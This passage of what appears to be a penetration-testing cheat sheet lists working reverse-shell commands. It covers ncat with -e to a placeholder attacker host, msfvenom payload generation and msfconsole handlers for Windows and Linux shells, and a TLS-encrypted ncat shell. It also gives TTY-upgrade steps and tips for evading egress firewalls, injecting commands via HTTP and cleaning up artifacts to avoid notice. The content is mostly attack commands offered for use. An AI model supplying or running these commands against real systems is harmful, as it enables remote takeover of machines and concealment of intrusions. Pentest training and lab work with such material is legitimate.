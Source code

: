 - ncat with -e (if nc/ncat available on Windows)
```
ncat.exe ATTACKER PORT -e cmd.exe
```

4) TTY upgrade (Linux reverse shells)

- If you don’t already have a pty:
```
python -c 'import pty; pty.spawn("/bin/bash")'  # or python3 ...
export TERM=xterm
```

- Fix line discipline and resize (on attacker side)
```
# Press Ctrl+Z to background the session
stty raw -echo; fg
reset
export TERM=xterm
stty rows 40 cols 120
```

5) Metasploit alternative

- Generate payloads
```
# Windows x64 reverse shell (non-meterpreter)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER LPORT=PORT -f exe -o shell.exe

# Linux x64 reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=ATTACKER LPORT=PORT -f elf -o shell.elf
```

- Start a handler
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST ATTACKER; set LPORT PORT; run -j"
# or for Linux payload
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST ATTACKER; set LPORT PORT; run -j"
```

6) Encrypted reverse shell (if egress allows TLS and target has ncat)
```
# Attacker
ncat --ssl -lvnp 443
# Target
ncat --ssl ATTACKER 443 -e /bin/bash
```

## Practical tips
- Choose egress-friendly ports: 443, 80, 53, 8080 often pass outbound firewalls.
- Identify tooling first: which python3 python perl php ruby nc ncat socat; echo $0; uname -a.
- Netcat flavors differ: if -e fails, use mkfifo fallback or use python/perl.
- Prefer socat or python pty for a real TTY; else use rlwrap on your listener.
- If commands are injected via HTTP, mind quoting/escaping; when in doubt, wrap in bash -c '...'.
- If connection fails: try different port, switch transport (TLS via ncat --ssl), or try another interpreter.
- Clean up artifacts: rm /tmp/f; remove dropped binaries; avoid noisy commands.
- Always verify your LHOST is reachable by the target (VPN/tun0 IP vs eth0).
